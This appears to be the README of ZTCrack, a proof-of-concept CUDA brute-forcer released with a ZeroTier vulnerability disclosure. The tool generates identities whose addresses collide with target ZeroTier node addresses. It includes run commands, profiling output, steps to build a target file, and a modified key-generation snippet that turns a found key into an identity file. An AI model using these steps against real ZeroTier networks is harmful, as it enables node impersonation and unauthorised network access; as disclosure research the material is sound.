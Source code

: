 # ZTCrack - A Zerotier CUDA Bruteforce proof-of-concept

This repo shows a proof-of-concept tool that can be used to generate colliding Zerotier identities with CUDA. This code is awful, you shouldn't use it and probably don't want to. This code isn't optimized, includes various snippets and chunks copied-and-pasted from Zerotier and other sources, contains overflow issues and doesnt follow any sort of CUDA (or any other, for that matter) best-practice.

Private keys are generated by incrementing a 64 bit integer. If you do find a collision, you should not use the private key for anything aside from testing Zerotier.

This codebase has been released as part of a wider [Zerotier vulnerability disclosure](https://pulsesecurity.co.nz/advisories)

## Running

Target network identifiers are expected in `targets.dat` in binary. If this file doesnt exist, the tool is run in benchmark mode instead where 5 valid hashes will be generated and then exit.

I ran this on an RTX2070 with the following:

```
> nvprof.exe .\ztcrack.exe 32 72 6600
Setting heap size to 6920601600
==9804== NVPROF is profiling process 9804, command: .\ztcrack.exe 32 72 6600
[!] Error: Could not open file targets.dat: No such file or directory
[!] Running in benchmark mode
Running 72 threads and 32 blocks. Total 2304
==9804== Profiling application: .\ztcrack.exe 32 72 6600
==9804== Profiling result:
            Type  Time(%)      Time     Calls       Avg       Min       Max  Name
 GPU activities:  100.00%  169.977s         1  169.977s  169.977s  169.977s  crack(void*, __int64, bool)
      API calls:   99.74%  169.977s         1  169.977s  169.977s  169.977s  cudaDeviceSynchronize
                    0.13%  224.94ms         1  224.94ms  224.94ms  224.94ms  cudaDeviceSetLimit
                    0.13%  215.61ms         1  215.61ms  215.61ms  215.61ms  cudaLaunchKernel
                    0.00%  26.400us         1  26.400us  26.400us  26.400us  cuDeviceTotalMem
                    0.00%  21.000us        97     216ns     100ns  1.1000us  cuDeviceGetAttribute
                    0.00%  9.2000us         1  9.2000us  9.2000us  9.2000us  cuDeviceGetPCIBusId
                    0.00%  2.2000us         1  2.2000us  2.2000us  2.2000us  cudaGetLastError
                    0.00%  2.1000us         1  2.1000us  2.1000us  2.1000us  cuDeviceGetName
                    0.00%  1.9000us         2     950ns     300ns  1.6000us  cuDeviceGet
                    0.00%  1.5000us         3     500ns     400ns     600ns  cuDeviceGetCount
                    0.00%     400ns         1     400ns     400ns     400ns  cuDeviceGetLuid
                    0.00%     300ns         1     300ns     300ns     300ns  cuDeviceGetUuid
```

The first parameter is the number of blocks, the second is the number of threads. The third parameter is the device heap size in MB. The heap size needs to be large enough to support the `genmem` area per-thread, which is 2097152 bytes. In benchmark mode, each thread will generate 5 valid private keys and then exit. So in this case it took 170 seconds to generate 11520 valid keys, or roughly 68 hashes-per-second.

You can generate a `targets.dat` by converting the 5 byte network address into binary and sending that into a file:

```
echo 62613ea298 | xxd -p -r > targets.dat
echo 4142434445 | xxd -p -r >> targets.dat
```

When a collision is found, it'll echo out the private key and the network address it matched:

```
PS C:\Users\DoI\Documents\src\cuda_salsa20> .\ztcrack.exe 32 72 6600
Setting heap size to 6920601600
bufsize: 16200040
read: 16200040
Initial
Running 72 threads and 32 blocks. Total 2304
key: 18438737674372003211, address: 62613ea298
```

You can then tweak the zerotier C22519 generation to match the bruteforcer and spit out an identity file.

```
doi@COG-2:~/src/ZeroTierOne$ ./zerotier-idtool generate test.secret
first byte: 6 06
address: 62613ea298
test.secret written
doi@COG-2:~/src/ZeroTierOne$ cat test.secret
62613ea298:0:d4e243391009b7f4f77a068697875d48bd34dbaa29c3e8c37ba306a4f64bc14f3b6a27bcceb6a42d62a3a8d02a6f0d73653215771de243a63ac048a18b59da29:00008b358ee3388ee3ff000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

The following shows my modified C22516.hpp file:

```
 72     template<typename F>
 73     static inline Pair generateSatisfying(F cond)
 74     {
 75         Pair kp;
 76         uint8_t * priv = (uint8_t *)kp.priv.data;
 77         //Utils::getSecureRandom(priv,ZT_C25519_PRIVATE_KEY_LEN);
 78         memset(priv, 0x00, ZT_C25519_PRIVATE_KEY_LEN);
 79
 80         
 81         uint64_t key = 18438737674372003211;
 82         memcpy(priv+2, &key, sizeof(uint64_t));
 83
 84         _calcPubED(kp); // do Ed25519 key -- bytes 32-63 of pub and priv
 85         _calcPubDH(kp); // keep regenerating bytes 0-31 until satisfied
 86         cond(kp);
 87         //while(!cond(kp)){
 88         //  ++(((uint64_t *)priv)[1]);
 89         //  --(((uint64_t *)priv)[2]);
 90         //}
 91         return kp;
 92     }
 ```

Again, hacky. If you're wondering why the integer used as the private key is getting nudged forward, it's to deal with C25519's clamping of higher bits.

